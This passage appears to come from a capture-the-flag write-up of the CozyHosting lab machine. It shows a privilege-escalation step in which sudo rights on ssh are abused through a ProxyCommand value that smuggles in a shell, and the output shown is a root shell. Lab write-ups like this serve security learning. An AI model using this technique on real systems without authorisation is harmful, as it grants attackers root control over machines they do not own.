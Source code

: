![](attachments/cozyhosting_9.png)

Let's try it.

```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

I got a root shell!